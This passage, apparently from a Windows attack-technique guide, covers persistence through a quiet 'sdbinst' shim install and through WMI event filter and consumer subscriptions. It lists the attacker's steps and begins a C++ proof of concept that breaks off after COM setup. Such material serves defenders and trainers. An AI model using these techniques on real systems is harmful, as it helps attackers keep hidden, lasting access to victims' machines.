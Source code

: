 sdbinst -q C:\path\to\your\shim.sdb

This command installs the shim database file (shim.sdb) quietly without user interaction.

## **WMI subscription**

Windows Management Instrumentation (WMI) subscription is a method used for maintaining persistence on a Windows system. WMI is a powerful and versatile Windows feature used for various system management tasks. Attackers can exploit WMI by creating persistent subscriptions that execute malicious scripts or binaries in response to specified system events.

### **Understanding WMI Subscription for Persistence**

WMI subscriptions can be used to execute code in response to an event. This is typically done using WMI Event Filters and Consumers. An Event Filter specifies the condition under which the code should execute, and a Consumer defines what action to take when that condition is met. By creating a malicious Event Filter and Consumer, attackers can ensure their code is executed automatically, achieving persistence.

### **Scenario of WMI Subscription Attacks**

- Create Malicious Script or Executable: The attacker prepares a script or executable with malicious code.
- Set Up WMI Event Filter: The attacker creates a WMI Event Filter that specifies when the malicious code should be executed (e.g., at system startup).
- Set Up WMI Event Consumer: The attacker creates a WMI Event Consumer that is triggered by the Event Filter to execute the malicious code.
- Bind the Filter to the Consumer: The attacker binds the Event Filter to the Event Consumer, creating a subscription.

### **Sample Proof of Concept (PoC) Code**

Creating a WMI subscription for persistence typically involves using scripting languages like PowerShell or VBScript. However, it can also be done programmatically using C++. Below is a simplified example:

```
#include <comdef.h>

#include <Wbemidl.h>

#pragma comment(lib, "wbemuuid.lib")

int main() {

    HRESULT hres;

    // Initialize COM

    hres = CoInitializeEx(0, COINIT_MULTITHREADED);

    if (FAILED(hres)) {

        return 1; // Failed to initialize COM

    }

    // Set general COM security levels

    hres = CoInitializeSecurity(NULL, -1, NULL, NULL, RPC_C_AUTHN_LEVEL_DEFAULT, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, EOAC_NONE, NULL);

    if (FAILED(hres)) {

        CoUninitialize();
```